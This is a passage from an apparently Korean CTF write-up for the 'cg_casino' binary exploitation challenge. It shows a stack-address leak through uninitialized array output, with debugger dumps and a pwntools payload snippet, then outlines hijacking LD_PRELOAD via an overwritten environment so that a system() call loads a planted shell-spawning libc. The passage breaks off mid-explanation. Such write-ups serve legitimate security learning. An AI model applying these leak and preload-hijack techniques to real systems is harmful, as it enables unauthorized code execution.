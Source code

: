 ### Stack leak
앞서 확인한대로 `lotto_4011A7()`에서 `%u` 형식이 아닌 데이터를 입력하면 `guess[i]`의 데이터를 출력할 수 있다.

`guess`는 6개의 integer 배열이므로 총 `0x18` 길이의 메모리를 확인할 수 있고 초기화되지 않은 상태에서의 `guess` 값을 확인해보면,
``` bash
gef➤  x/3gx $rsp+0x30
0x7fffffffdef0: 0x0000000000000000      0x00007ffff7ffe168
0x7fffffffdf00: 0x0000000000000000
```
libc 영역의 주소가 남아있는데 필요한 주소값이 뭔지 생각해보면 stack의 주소에 가깝다.

따라서 다른 함수를 먼저 실행해서 `$rsp+0x30` 영역에 stack 주소를 남길 수 있는지 확인해보았는데, `up_down_40139E()`을 호출한 뒤 `lotto_4011A7()`를 호출하면 가능하다.
``` bash
gef➤  x/3gx $rsp+0x30
0x7fffffffdef0: 0x0000000000000000      0x00007fffffffdf10
0x7fffffffdf00: 0x0000000000400bb0
```
`guess`는 integer이므로 3번째, 4번째 입력을 줄 때 'a'를 입력하면 4바이트씩 leak이 가능하므로, 다음과 같이 payload를 작성했다.
``` python
    updown(s, [1, 1, 1, 1, 1, 1])
    r = lotto(s, b"1 2 a 3 a 4 5 6")
    lower = int(r.split(b" : ")[0])
    upper = int(r.split(b" : ")[1].split(b"\n")[1])
    buf = upper << 32 | lower + 0x40
    log.info(f"buf : {hex(buf)}")
```

### Envp overwrite
이제 쉘을 실행해주는 libc 파일을 `/home/cg_casino/voucher`에 안착시켰으니, 이걸 실행만 시키면 된다.

일반적으로 원하는 libc를 로드하는 테크닉으로 `LD_PRELOAD` 환경변수를 이용하는 방식이 있어서 어떻게 활용할지 고민했다.

현재 libc에 `on_unload()`를 정의해놓았으므로 두 가지를 확인해야하는데,
1. `exit(0);`을 통해서도 `on_unload()`가 호출되는지
2. 환경변수를 실행 이후에 변경해도 `LD_PRELOAD`가 적용되는지

테스트 코드를 작성해서 1번은 가능한 것을 확인했는데 아쉽게도 2번이 적용되지 않았다.

따라서 현재 프로세스의 환경변수를 조작해놓고, 그 환경변수를 가져다가 쓰는 프로세스를 실행할 수 있어야 한다.

그러다가 `slot_401477()`에서 `system("/usr/bin/clear");`을 사용하는데, 동적 분석을 할 때 다음과 같은 메세지가 출력된 것이 기억났다.
``` bash
        _______
       |JACKPOT|
=========================
|   ___    ___    ___    |
|  | ? |  | ? |  | ? |   |
|  |___|  |___|  |___|   |
=========================
|________________________|
press any key

TERM environment variable not set
```
현재 프로세스인 `cg_casino`는 환경변수가 `docker-compose.yml` 파일에서 `ERASER`를 통해 값이 밀려있는 상태이다.
